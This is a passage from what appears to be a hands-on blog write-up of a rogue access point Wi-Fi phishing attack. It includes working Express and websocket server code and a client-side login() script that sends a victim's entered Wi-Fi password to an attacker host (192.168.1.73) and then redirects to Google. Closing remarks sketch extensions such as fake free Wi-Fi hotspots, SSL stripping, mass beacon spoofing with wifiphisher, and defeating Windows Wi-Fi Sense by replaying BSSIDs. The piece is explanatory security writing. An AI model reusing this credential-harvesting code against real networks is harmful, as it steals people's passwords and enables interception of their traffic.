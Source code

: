```js
    logger.write(`${message}\n`);
  });
});

// Express
app.use("/TalkTalk_files", express.static("TalkTalk_files")); // serve directory statically
app.get("/", (req, res) =>
  res.sendFile(path.join(__dirname + "/TalkTalk.html"))
);
app.listen(expressPort, host, () =>
  console.log(`express listening at http://${host}`)
);
console.log(`Websocket listening at ws://${host}:${wsPort}`);
```

`TalkTalk.html` will load a few lines of custom `javascript`. It defines the function `login()` that gets called when the user presses the Login-Button and sends the password to our listening websocket server.

```js
host = "192.168.1.73";
function login() {
  ws = new WebSocket(`ws://${host}:8080`);
  t = document.getElementById("target");
  var psk = t.value;
  ws.onopen = function (event) {
    ws.send(`${psk}`);
    ws.close();
    window.setTimeout(function () {
      window.location.replace("http://google.com");
    }, 3000);
  };
}
```

{{< img src="images/pw.png" title="Successfully phising the WiFi password." >}}

That's really all there is to it. Upon receiving a user's password, we could start serving proper DNS responses again. The above implementation is only for illustrative purposes. [`wifiphisher`](https://wifiphisher.org/ "Wifiphiser website") properly implements attacks like this one.

# Remarks

In retrospect, much of our time was spent on setting up an AP and configuring networks. Despite their dullness, these exercises are where I personally learn the most. Going the manual and labor-intensive way challenges abstract understanding and glues together concepts.

Altogether, we explored only one way to get into a MitM position. With only minor tweaks, the same attack model would allow for spawning "Free Wi-Fi"-APs in places where people may suspect them and knowingly connect. Of course, we shouldn't be asking users for their Wi-Fi passwords then (has anybody ever tried this though? You never know..), but would rather go for SSL-Stripping attacks or something else. Some of the authors behind `wifiphisher` have actually gone a step further by exploiting that most devices will simply connect to "known" networks. `wifiphisher` can exploit this behavior by sending beacon frames for hundreds of well known APs (think `Marriot-Hotel`, `Airport-Wifi` etc.) and then spawning Rogue APs as it receives `Beacon requests` for some of those networks. Windows clients are protected from this attack — they don't automatically connect to open networks. That is, unless the network is "trusted" (I believe that Microsoft calls this Wi-Fi Sense). Microsoft uses a location service that relies on the BSSIDs of other APs around to determine whether an open network is authentic. [George Chatzisofroniou](https://twitter.com/_sophron "George on Twitter"), the main author of `wifiphisher`, [broke](https://www.youtube.com/watch?v=p1Lt-NL7JyM "George's talk on Youtube") this security mechanism by simply recording BSSIDs around a targeted open hotspot and later broadcasting these, while impersonating the open hotspot.
